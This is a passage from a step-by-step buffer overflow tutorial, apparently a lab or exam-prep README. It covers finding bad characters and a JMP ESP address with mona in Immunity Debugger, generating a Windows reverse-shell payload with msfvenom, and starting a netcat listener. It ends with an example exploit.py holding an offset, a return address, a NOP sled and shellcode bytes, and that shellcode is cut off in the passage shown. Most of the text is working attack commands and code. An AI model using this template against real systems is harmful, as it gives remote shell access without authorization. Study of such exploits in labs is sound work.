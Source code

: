 Example:
```
!mona bytearray -b "\x00\x07"
```

#### Step 24: Repeat steps 19-23 until Step 20 says "Unmodified" in the Immunity logs (Charaters in the exeption list of bytearray are the bad characters)

#### Step 25: In crashed or running state, find jump point in Immunity with this command:

```
!mona jmp -r esp -cpb "[BAD-CHARACTERS]"
```
*Most likely, no output will be generated. View Logs in Immunity to see jump point*

#### Step 26: Write jump point address discovered backwards into the retn variable of exploit.py

For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in exploit.py

#### Step 27: Generate payload with this command:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACK-IP] LPORT=4444 EXITFUNC=thread -b "[BAD-CHARACTORS]" -f c
```

#### Step 28: Paste generated payload into payload variable of exploit.py
*Wrap output/payload variable in parentheses ()*

#### Step 29: Add padding to exploit.py

Example:

```
padding = "\x90" * 16
```

#### Step 30: Start netcat listener

Example:
```
nc -lnvp 4444
```

#### Step 31: Restart application and run the program in Immunity, and run exploit.py from attack machine

#### Step 32: Check listener, it should have a shell

#### Example of a Final exploit.py
```
import socket

ip = "10.10.53.94"
port = 31337

offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = ("\xb8\x03\xb7\xd7\x97\xda\xd7\xd9\x74\x24\xf4\x5f\x33\xc9\xb1"
"\x52\x83\xef\xfc\x31\x47\x0e\x03\x44\xb9\x35\x62\xb6\x2d\x3b"
"\x8d\x46\xae\x5c\x07\xa3\x9f\x5c\x73\xa0\xb0\x6c\xf7\xe4\x3c"
"\x06\x55\x1c\xb6\x6a\x72\x13\x7f\xc0\xa4\x1a\x80\x79\x94\x3d"
```